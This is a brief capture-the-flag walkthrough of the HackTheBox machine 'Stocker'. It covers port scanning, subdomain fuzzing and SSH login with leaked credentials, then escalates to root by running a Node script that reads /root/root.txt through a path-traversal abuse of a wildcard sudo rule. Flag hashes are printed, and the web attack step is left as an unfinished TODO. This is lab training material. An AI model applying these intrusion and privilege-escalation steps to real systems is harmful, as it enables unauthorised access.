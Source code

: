 # Stocker

Let's stat enumerating the system !
```
sudo nmap -sS --open --min-rate 5000 -Pn -n -v 10.10.11.196 -oG allPorts
```
> There's only 2 ports : 22 and 80

Check the version of services !
```
nmap -sC -sV -p22,80 10.10.11.196 -oN targeted
```
> Ther's only a http service and the ssh service

Add the ip address to the ```/etc/hosts``` file
```
10.10.11.196    stocker.htb
```

Let's check the web !
```
whatweb http://stocker.htb
```

Seeing the web, there's nothing interessing... Let's fuzz DNS or paths !
```
wfuzz -c -t 400 --hc=404 -w /usr/share/dirbuster/directory-list-2.3-medium.txt http://stocker.htb/FUZZ
```
> For discovering other paths, but nothing...

Let's discover sub domains (DNS)
```
gobuster vhost -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u stocker.htb -t 50 --append-domain
```

We found a subdomain !
```
Found: dev.stocker.htb Status: 302 [Size: 28] [--> /login]
```

Add this sub domain to the ```/etc/hosts``` !
```
10.10.11.196    stocker.htb     dev.stocker.htb
```


# TODO finish the Burpsuite attack



We get the user and passwd
```
user: angoose
pass: IHeardPassphrasesArePrettySecure
```
Let's connect to the ssh
```
ssh angoose@stocker.htb
```

Running a ```ls``` command, we see the ```user.txt``` file !
```
3fc9a0d07963dc417fceaae26c33001f
```

Let's check the privilegs by
```
sudo -l
```

The output is:
```
Matching Defaults entries for angoose on stocker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User angoose may run the following commands on stocker:
    (ALL) /usr/bin/node /usr/local/scripts/*.js
```
> That means we can execute ```javascript``` file ! 

Use the following script ([flag.js](./exploits/flag.js)) to read the ```root.txt``` flag
```
const fs = require ('fs');
fs.readFile('/root/root.txt', 'utf-8', (err, data) => {
    if (err) throw err;
     console.log(data);
});
```

Then, let's execute it as root !
```
sudo /usr/bin/node /usr/local/scripts/../../../home/angoose/flag.js
```

We got the flag !
```
ec5b4efcbec8fbd36163d73640d1db07
```
